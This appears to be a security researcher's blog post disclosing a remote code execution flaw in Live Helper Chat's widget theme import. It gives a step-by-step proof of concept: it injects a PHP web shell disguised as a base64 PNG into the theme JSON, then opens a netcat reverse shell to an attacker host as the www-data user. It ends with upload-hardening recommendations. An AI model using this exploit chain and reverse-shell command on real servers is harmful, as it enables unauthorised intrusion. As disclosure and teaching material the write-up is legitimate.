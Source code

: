 ```yaml
---
layout: post
title: "LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function"
categories: Research
---
```

## LiveHelperChat - Remote Code Execution via Vulnerable Theme Upload Function

# Summary:
Upon logging in, an import functionality has been identified that accepted input in a JSON format. The JSON format was analyzed and a base64 encoded PNG image input has been identified. By manipulating the image input parameters, it was possible to upload a malicious php file in order to execute arbitrary code.

# Plugin informations:
Name: Live Helper Chat
Homepage: https://livehelperchat.com/

# Proof of Concept (PoC):
Upon first inspection, there are no themes currently uploaded on the web application. The first step would be to try and upload a PHP file directly in one of the file inputs, however this does not seem to work in our case. 

In order to exploit this vulnerability, we must first create basic theme. Let’s move to the vulnerable directory.

> **/lhc_web/index.php/site_admin/abstract/new/WidgetTheme**{: style="color: red"}

We fill up the required inputs and parameters with dummy data. Then, we go back and download the theme from the Widget directory located here:

> **/lhc_web/index.php/site_admin/abstract/edit/WidgetTheme/1**{: style="color: red"}

When the file is downloaded, we open it and modify the **offline_image_data parameter** as well as the **offline_image_data_ext** parameter
&nbsp;

**Payload:** base64(Image Header + PHP Web Shell)
&nbsp;

**Offline_image_data** is replaced with the payload.
**Offline_image_data_ext** is simply set to “php”.
&nbsp;

The exploit should look something like this:
&nbsp;

```json
{
    "name": "Test",
    "name_company": "Peter Winter",
    "..[SNIP]..": "..[SNIP]..",
    "offline_image_data": "base64_payload",
    "offline_image_data_ext": "php"
}
```
&nbsp;
After the theme with the exploit is prepared it is uploaded on the web server in the following page:
16px
> **/lhc_web/index.php/site_admin/theme/import**{: style="color: red"}
&nbsp;

![import theme]({{ site.baseurl }}/assets/images/image1.png){:.images}
&nbsp;

After the upload is successful, the user must edit the imported theme at the Widget themes section. When the page is loaded, so is the php web shell. In our case, we have identified the path where the shell has been uploaded by viewing the page source and viewing the file path of the **offline_image_data** parameter:

> **/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php**{: style="color: red"}
&nbsp;

Our webshell can execute code on the server by using “cmd” as a parameter. The user can then proceed to set up a reverse shell to their machine by using nc. We then proceed to establishing a reverse shell connection by issuing the following command through the GET method. Firstly, we start a listener on our local machine.
&nbsp;

{% highlight bash %}
> $ nc -lnvp 60000
{% endhighlight %}
&nbsp;

Then, we proceed to send a GET request to the webserver by leveraging our PHP web shell.
&nbsp;

{% highlight bash %}
> $ curl -X GET \ 
http://victim_ip/lhc_web/var/storagetheme/2018y/06/03/2/2c36ce9c8ebb012be3bcb3acb60abbc3.php?cmd=nc+attacker_ip+60000+-e+/bin/bash
{% endhighlight %}
&nbsp;

If the connection is successful, we should get the following message on our listener. Upon issuing the id command, we find out that we are logged in as the www-data user.
&nbsp;

{% highlight bash %}
> $  nc -lnvp 60000
listening on [any] 60000 ...
connect to [attacker_ip] from (UNKNOWN) [vitim_ip] 40248
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}
&nbsp;

# Some of the recommendations for remediating this vulnerability are listed below:

- Restrict file types accepted for upload (check the file extension and only allow certain files to be uploaded.)
- Use a whitelist approach instead of a blacklist. 
- Check for double extensions such as .php.png. 
- Check for files without a filename like .htaccess (on ASP.NET, check for configuration files like web.config). 
- Change the permissions on the upload folder so the files within it are not executable. If possible, rename the files that are uploaded.
- Check OWASP page for unrestricted upload for the rest of best-practice solutions.


# Vulnerability found by:
Me and [0xcela](https://twitter.com/0xcela) while we were working at [Sentry](https://sentry.co.com)

